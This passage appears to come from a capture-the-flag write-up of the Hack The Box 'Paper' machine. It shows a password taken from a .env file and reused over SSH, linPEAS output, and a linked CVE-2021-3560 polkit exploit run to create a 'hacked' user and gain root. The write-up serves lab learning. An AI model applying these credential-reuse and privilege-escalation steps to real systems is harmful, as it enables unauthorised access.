After searching on the host for some files, we’ve got the `.env` file. Here we’ve found some credentials. Let’s try reuse this password on service SSH.


| USER | PASSWORD |
| --- | --- |
| recyclops | Queenofblad3s!23 |
| dwight | Queenofblad3s!23 |

Log into SSH as dwight and the password’s bot.

```bash
─[us-dedivip-1]─[10.10.14.53]─[th3g3ntl3m4n@htb]─[~/htb/images/exploitation]
└──╼ [★]$ ssh dwight@office.paper
The authenticity of host 'office.paper (10.129.221.173)' can't be established.
ECDSA key fingerprint is SHA256:2eiFA8VFQOZukubwDkd24z/kfLkdKlz4wkAa/lRN3Lg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'office.paper,10.129.221.173' (ECDSA) to the list of known hosts.
dwight@office.paper's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
```

# Privilege Escalation

Running `linPEAS.sh` on host, we’ve got some interesting output.

```bash
╔══════════╣ Cron jobs                                                                                                                                                                        
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs                                                                                                             
/usr/bin/crontab                                                                                                                                                                              
@reboot /home/dwight/bot_restart.sh >> /home/dwight/hubot/.hubot.log 2>&1

╔══════════╣ Sudo version                                                                                                                                                                     
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                                                                                    
Sudo version 1.8.29                                                                                                                                                                           
                                                                                                                                                                                              
Vulnerable to CVE-2021-3560                                                                                                                                                                   
                                                                                                                                                                                              
                                                                                                                                                                                              
╔══════════╣ PATH                                                                                                                                                                             
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses                                                                                                            
/home/dwight/.local/bin:/home/dwight/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin                                                                                                    
New path exported: /home/dwight/.local/bin:/home/dwight/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/sbin:/bin
```

Searching for the CVE showed by linPEAS, we’ve got a github repository with a exploit.

| EXPLOIT |
| --- |
| [https://www.exploit-db.com/exploits/50011](https://www.exploit-db.com/exploits/50011) |

Let’s try to execute this exploit.

```bash
[dwight@paper tmp]$ ./exploit.sh                                                                                                                                                              
Invalid configuration value: failovermethod=priority in /etc/yum.repos.d/nodesource-el8.repo; Configuration: OptionBinding with id "failovermethod" does not exist                            
Invalid configuration value: failovermethod=priority in /etc/yum.repos.d/nodesource-el8.repo; Configuration: OptionBinding with id "failovermethod" does not exist                            
Modular dependency problems:                                                                                                                                                                  
                                                                                                                                                                                              
 Problem 1: conflicting requests

...

*] Run 'su - hacked', followed by 'sudo su' to gain root access
[dwight@paper tmp]$ su - hacked
Password: 
[hacked@paper ~]$ sudo su
[sudo] password for hacked: 
[root@paper hacked]# id
uid=0(root) gid=0(root) groups=0(root)
```

We got root!

